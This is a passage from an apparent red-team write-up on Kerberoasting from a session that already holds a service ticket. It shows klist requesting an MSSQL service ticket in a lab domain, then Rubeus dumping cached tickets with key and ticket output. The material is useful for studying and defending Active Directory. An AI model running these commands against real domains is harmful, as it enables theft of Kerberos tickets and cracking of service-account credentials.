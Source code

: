 A blog post by [RastaMouse](https://rastamouse.me/kerberoasting-without-tgs-reqs/) also discussed the above topic but from a different situation, where you've managed to land in a session where a service ticket is already present.

```
PS C:\Users\async_testuser-001> klist get MSSQLSvc/SQL01.asia.earth.local

Current LogonId is 0:0x49203
A ticket to MSSQLSvc/SQL01.asia.earth.local has been retrieved successfully.

Cached Tickets: (2)
#0>     Client: async_testuser-001 @ ASIA.EARTH.LOCAL
        Server: krbtgt/ASIA.EARTH.LOCAL @ ASIA.EARTH.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize 
        Start Time: 6/29/2025 23:24:47 (local)
        End Time:   6/30/2025 9:24:47 (local)
        Renew Time: 7/6/2025 23:24:04 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY 
        Kdc Called: dc02.asia.earth.local

#1>     Client: async_testuser-001 @ ASIA.EARTH.LOCAL
        Server: MSSQLSvc/SQL01.asia.earth.local @ ASIA.EARTH.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
        Start Time: 6/29/2025 23:24:47 (local)
        End Time:   6/30/2025 9:24:47 (local)
        Renew Time: 7/6/2025 23:24:04 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0 
        Kdc Called: dc02.asia.earth.local
```

We can then use `Rubeus` to dump these tickets, we also find out that our `luid` is `0x49203` from the above `klist` output.

```
PS C:\Users\async_testuser-001> .\Rubeus.exe dump /luid:0x49203 /nowrap
[...snip...]
  ServiceName              :  MSSQLSvc/SQL01.asia.earth.local
    ServiceRealm             :  ASIA.EARTH.LOCAL
    UserName                 :  async_testuser-001 (NT_PRINCIPAL)
    UserRealm                :  ASIA.EARTH.LOCAL
    StartTime                :  6/29/2025 11:24:47 PM
    EndTime                  :  6/30/2025 9:24:47 AM
    RenewTill                :  7/6/2025 11:24:04 PM
    Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
    KeyType                  :  rc4_hmac
    Base64(key)              :  HGWwqFWyrPewuxjQR+F0aA==
    Base64EncodedTicket   :
      doIGZDCCBmCgAwIBBaEDAgEWooI[...snip...]zaWEuZWFydGgubG9jYWw=
[..snip..]
```
